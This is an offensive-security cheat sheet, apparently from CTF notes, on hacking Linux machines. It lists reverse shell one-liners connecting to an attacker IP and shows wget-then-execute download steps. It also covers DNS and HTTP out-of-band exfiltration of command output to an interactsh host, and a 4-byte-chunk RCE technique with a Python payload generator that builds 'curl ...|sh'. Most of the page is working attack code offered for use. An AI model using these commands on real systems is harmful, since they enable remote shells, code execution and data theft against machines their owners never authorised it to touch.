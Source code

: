 ```yaml
---
description: Specific tricks for hacking Linux-based boxes
---
```


# Hacking Linux Boxes

## Reverse Shells

{% embed url="https://www.revshells.com/" %}

{% code title="Common reverse shells" %}
```shell
bash -i >& /dev/tcp/$YOUR_IP/1337 0>&1
sh -i >& /dev/tcp/$YOUR_IP/1337 0>&1
bash -c "bash -i >& /dev/tcp/$YOUR_IP/1337 0>&1"
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $YOUR_IP 1337 >/tmp/f
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|sh -i 2>&1|nc $YOUR_IP 1337 >/tmp/g
```
{% endcode %}

If filter or weird/short input, try simple downloading then executing in two separate commands

{% code title="Attacker" %}
```shell-session
$ mkdir http
$ nano http/shell.sh  # Can be index.html to do just `wget $YOUR_IP` on the victim
$ default listen http http
```
{% endcode %}

{% code title="Victim" %}
```shell-session
$ wget $YOUR_IP/shell.sh
$ sh shell.sh
```
{% endcode %}

With very limited communication available, you can try a few things:

```shell
sleep 10  # Should wait 10 seconds if code is executed
# DNS
interactsh-client -v  # Start as attacker (https://github.com/projectdiscovery/interactsh)
nslookup nftca6lpouq.oast.live  # Any DNS request will trigger in tool
bash -c 'echo 1 > /dev/tcp/`whoami`.`hostname`.nftca6lpouq.oast.live/443'  # Exfiltrate command output
# HTTP
curl nftca6lpouq.oast.live
```

### RCE in 4 bytes

Sometimes you're limited in the length of the commands you can execute. There is a technique in bash to execute commands and save things to files, and eventually execute arbitrary code by just sending multiple 4-byte commands. The technique was a solution to a challenge by [Orange Tsai](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2).&#x20;

The idea goes like this. Using file redirection with `>` you can save files with a name. Then we can slowly build out some letters to form a different command, and we can combine the letters using `dir`. This command just lists the current directory and places them all after each other separated by spaces. Using the `*` wildcard all files in the current directory will be inserted, but in alphabetical order. This makes it quite hard to do much right now:

```shell-session
$ >dir  # Define dir command
$ >sl   # ls
$ >g\>  # >g
$ >ht-  # -th
$ *>v   # Execute dir command to file "v"
```

The `v` file now contains `g> ht- sl`. Reversed this would be `ls -th >g`, which allows us to list the files ordered by **time**. This way we don't have the restriction to have the command be in alphabetical order.&#x20;

```shell-session
$ >rev  # Define rev command
$ *v>x  # * wildcard matching only rev and v files, saving to x
```

Now x contains the desired `ls -th >g` which we can execute whenever we want. Now that the final file will be ordered by time, we can just write out the full payload character by character. Later we will create a file that has all of these seperated by a newline, so we need to add a `\` at the end to escape the newline. Lets make `curl localhost:8000|sh;` for example:

```shell-session
$ >\;\\
$ >sh\\
$ >\|\\
$ >00\\
$ >80\\
$ >t:\\
$ >os\\
$ >lh\\
$ >ca\\
$ >lo\\
$ >\ \\
$ >rl\\
$ >cu\\
```

In an actual attack you would send only one `\` at the end, but here in the interactive bash we need to escape it ourselves. Executing the `ls -th` command we made earlier now, it gives us the desired command with backslashes to escape the newlines:

```shell-session
$ ls -th | cat
g
cu\
rl\
 \
lo\
ca\
lh\
os\
t:\
80\
00\
|\
sh\
;\
x
rev
v
ht-
g>
sl
dir
```

Finally, we can execute the `x` script to do the above command into a file called `g`. Then we can run the g script to actually run the payload that fetches a script from the `localhost:8000` address, of course this can be any site of your own to host a malicious payload on.&#x20;

```shell-session
$ sh x  # ls -th >g
$ sh g  # Run final payload
```

To automatically run any payload you want, I made the following Python script to showcase the attack and create any payload:

{% code title="generate.py" %}
```python
import os
from time import sleep

COMMAND = "curl localhost:8000|sh;"  # Needs ; at the end for correct syntax


def is_normal_char(c):  # Safe characters that don't need to be escaped
    return c in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789,._+:@%/-"

def escape(c):
    if is_normal_char(c):
        return c
    else:
        return "\\" + c

def command_to_chunks(command):
    command = list(command)  # Allows .pop() method
    result = []
    while True:  # Go through whole command
        try:
            chunk = escape(command.pop())
            if len(chunk + escape(command[-1])) <= 2:  # Test potential extra character
                chunk = command.pop() + chunk  # Add another character because enough space
            
            result.append(f">{chunk}\\")
        except IndexError:  # If done
            break
    
    return result


payload = [
    # generate "g> ht- sl" to file "v"
    '>dir',  # Define dir command
    '>sl',   # ls
    '>g\>',  # >g
    '>ht-',  # -th
    '*>v',   # Execute dir command to file "v"

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',  # Define rev command
    '*v>x',  # * wildcard matching only rev and v files, saving to x
]

payload += command_to_chunks(COMMAND)

payload += [
    "sh x",  # ls -th >g
    "sh g",  # Run final payload
]

for c in payload:
    print(c)  # Send to target

# Optional: Execute proof-of-concept locally
# for c in payload:
#     sleep(0.1)  # Wait to make sure time order is correct
#     if len(c) <= 4:  # Max 4 bytes
#         os.system(c)
```
{% endcode %}
